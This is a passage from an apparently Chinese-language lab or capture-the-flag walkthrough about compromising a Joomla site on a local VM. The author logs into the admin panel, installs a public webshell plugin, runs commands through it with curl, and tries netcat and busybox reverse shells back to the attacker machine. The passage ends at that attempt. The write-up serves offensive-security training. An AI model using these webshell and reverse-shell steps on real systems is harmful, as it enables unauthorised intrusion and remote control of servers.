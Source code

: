 用用户名 `root` 和密码 `00dae9e3052fb2255408182602383ce1` 尝试登录 `http://192.168.205.207/administrator/`。

成功登录！我还以为要解个Hash呢。

#### 2. 上传Webshell插件

进了后台，这种CMS最常见的GetShell方式就是通过插件上传Webshell。

![image-20250511222523465](https://7r1UMPH.top/image/20250511222523819.webp)在GitHub上搜了一下 "Joomla webshell plugin"，很快找到了一个现成的：
`https://github.com/p0dalirius/Joomla-webshell-plugin`

![image-20250511222613763](https://7r1UMPH.top/image/20250511222613917.webp)

根据项目说明，在它的 `dist` 目录里下载一个打包好的 `mod_webshell.zip` 就行。

回到Joomla后台，"System" -> "Install" -> "Extensions"，上传并安装 `mod_webshell.zip`。
安装成功后，根据插件的说明文档，可以通过访问特定路径来执行命令。

![image-20250511222957053](https://7r1UMPH.top/image/20250511222957204.webp)

测试一下命令执行：

```shell
┌──(kali㉿kali)-[/mnt/hgfs/gx]
└─$ curl -X POST 'http://192.168.205.207/modules/mod_webshell/mod_webshell.php' --data "action=exec&cmd=id"
{"stdout":"uid=33(www-data) gid=33(www-data) groups=33(www-data)\n","stderr":"","exec":"id"}
```

命令成功执行，当前用户是 `www-data`。

### 三、反弹Shell与提权

#### 1. 获取反弹Shell

先在Kali上监听端口：

```shell
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 8888    
listening on [any] 8888 ...
```

然后通过Webshell执行反弹命令：

```shell
┌──(kali㉿kali)-[/mnt/hgfs/gx]
└─$ curl -X POST 'http://192.168.205.207/modules/mod_webshell/mod_webshell.php' --data "action=exec&cmd=nc 192.168.205.206 8888 -e /bin/bash"
{"stdout":"","stderr":"sh: 1: nc: not found\n","exec":"nc 192.168.205.206 8888 -e \/bin\/bash"}
```

目标机上没有 `nc`。试试 `busybox nc`：

```shell
┌──(kali㉿kali)-[/mnt/hgfs/gx]                                                                                                                                                     
└─$ curl -X POST 'http://192.168.205.207/modules/mod_webshell/mod_webshell.php' --data "action=exec&cmd=busybox nc 192.168.205.206 8888 -e /bin/sh"
```
